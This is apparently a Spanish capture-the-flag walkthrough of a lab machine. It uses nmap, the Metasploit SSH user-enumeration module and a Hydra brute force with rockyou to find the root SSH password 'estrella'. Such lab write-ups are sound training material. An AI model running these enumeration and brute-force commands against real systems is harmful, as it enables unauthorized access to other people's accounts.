

Empezamos con un escaneo de todos los puertos:
```bash
❯ nmap -p- -Pn --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 19:00 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000087s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 1 IP address (1 host up) scanned in 1.37 seconds
```

y como se puede deducir por el titulo de la maquina, solo hay un servicio ssh, vamos a hacerle un escaneo mas profundo:

```bash
❯ nmap -p22 -sCV 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 19:01 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00013s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 1a:cb:5e:a3:3d:d1:da:c0:ed:2a:61:7f:73:79:46:ce (RSA)
|   256 54:9e:53:23:57:fc:60:1e:c0:41:cb:f3:85:32:01:fc (ECDSA)
|_  256 4b:15:7e:7b:b3:07:54:3d:74:ad:e0:94:78:0c:94:93 (ED25519)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.75 seconds
```

con esto, busqué la versión de ssh y nos aparece una vulnerabilidad para enumerar ususarios, la uso con metasploit y encuentro esto

```bash 
❯ msfconsole
Metasploit tip: To save all commands executed since start up to a file, use the 
makerc command
                                                  

      .:okOOOkdc'           'cdkOOOko:.
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
  oOOOOOOOO.    .oOOOOoOOOOl.    ,OOOOOOOOo
  dOOOOOOOO.      .cOOOOOc.      ,OOOOOOOOx
  lOOOOOOOO.         ;d;         ,OOOOOOOOl
  .OOOOOOOO.   .;           ;    ,OOOOOOOO.
   cOOOOOOO.   .OOc.     'oOO.   ,OOOOOOOc
    oOOOOOO.   .OOOO.   :OOOO.   ,OOOOOOo
     lOOOOO.   .OOOO.   :OOOO.   ,OOOOOl
      ;OOOO'   .OOOO.   :OOOO.   ;OOOO;
       .dOOo   .OOOOocccxOOOO.   xOOd.
         ,kOl  .OOOOOOOOOOOOO. .dOk,
           :kk;.OOOOOOOOOOOOO.cOk:
             ;kOOOOOOOOOOOOOOOk:
               ,xOOOOOOOOOOOx,
                 .lOOOOOOOl.
                    ,dOd,
                      .

       =[ metasploit v6.3.44-dev                          ]
+ -- --=[ 2376 exploits - 1232 auxiliary - 416 post       ]
+ -- --=[ 1388 payloads - 46 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

[msf](Jobs:0 Agents:0) >> search openssh

Matching Modules
================

   #  Name                                         Disclosure Date  Rank    Check  Description
   -  ----                                         ---------------  ----    -----  -----------
   0  post/windows/manage/forward_pageant                           normal  No     Forward SSH Agent Requests To Remote Pageant
   1  post/windows/manage/install_ssh                               normal  No     Install OpenSSH for Windows
   2  post/multi/gather/ssh_creds                                   normal  No     Multi Gather OpenSSH PKI Credentials Collection
   3  auxiliary/scanner/ssh/ssh_enumusers                           normal  No     SSH Username Enumeration
   4  exploit/windows/local/unquoted_service_path  2001-10-25       great   Yes    Windows Unquoted Service Path Privilege Escalation


Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/local/unquoted_service_path

[msf](Jobs:0 Agents:0) >> use 3
[msf](Jobs:0 Agents:0) auxiliary(scanner/ssh/ssh_enumusers) >> options

Module options (auxiliary/scanner/ssh/ssh_enumusers):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   CHECK_FALSE   true             no        Check for false positives (random username)
   DB_ALL_USERS  false            no        Add all users in the current database to the list
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                         yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-meta
                                            sploit.html
   RPORT         22               yes       The target port
   THREADS       1                yes       The number of concurrent threads (max one per host)
   THRESHOLD     10               yes       Amount of seconds needed before a user is considered found (timing attack only)
   USERNAME                       no        Single username to test (username spray)
   USER_FILE                      no        File containing usernames, one per line


Auxiliary action:

   Name              Description
   ----              -----------
   Malformed Packet  Use a malformed packet


View the full module info with the info, or info -d command.

[msf](Jobs:0 Agents:0) auxiliary(scanner/ssh/ssh_enumusers) >> set rhosts 172.17.0.2
rhosts => 172.17.0.2
[msf](Jobs:0 Agents:0) auxiliary(scanner/ssh/ssh_enumusers) >> set USER_FILE /usr/share/wordlists/metasploit/unix_users.txt
USER_FILE => /usr/share/wordlists/metasploit/unix_users.txt

[msf](Jobs:0 Agents:0) auxiliary(scanner/ssh/ssh_enumusers) >> run

[*] 172.17.0.2:22 - SSH - Using malformed packet technique
[*] 172.17.0.2:22 - SSH - Checking for false positives
[*] 172.17.0.2:22 - SSH - Starting scan
[+] 172.17.0.2:22 - SSH - User '_apt' found
[+] 172.17.0.2:22 - SSH - User 'backup' found
[+] 172.17.0.2:22 - SSH - User 'bin' found
[+] 172.17.0.2:22 - SSH - User 'daemon' found
[+] 172.17.0.2:22 - SSH - User 'games' found
[+] 172.17.0.2:22 - SSH - User 'gnats' found
[+] 172.17.0.2:22 - SSH - User 'irc' found
[+] 172.17.0.2:22 - SSH - User 'list' found
[+] 172.17.0.2:22 - SSH - User 'lp' found
[+] 172.17.0.2:22 - SSH - User 'mail' found
[+] 172.17.0.2:22 - SSH - User 'man' found
[+] 172.17.0.2:22 - SSH - User 'news' found
[+] 172.17.0.2:22 - SSH - User 'nobody' found
[+] 172.17.0.2:22 - SSH - User 'proxy' found
[+] 172.17.0.2:22 - SSH - User 'root' found
[+] 172.17.0.2:22 - SSH - User 'sync' found
[+] 172.17.0.2:22 - SSH - User 'sys' found
[+] 172.17.0.2:22 - SSH - User 'uucp' found
[+] 172.17.0.2:22 - SSH - User 'www-data' found
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
[msf](Jobs:0 Agents:0) auxiliary(scanner/ssh/ssh_enumusers) >> 

```

Con esto veo que no hay un ususario personalizado como tal por lo que simplemente use hydra con el usuario root y el rockyou:

```bash
❯ hydra -l root -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-15 19:11:40
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: root   password: estrella
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-15 19:12:25
```

Y encontramos la contraseña de root: **estrella**
así que comprobamos que podemos entrar y ya dejaríamos la maquina como concluida.



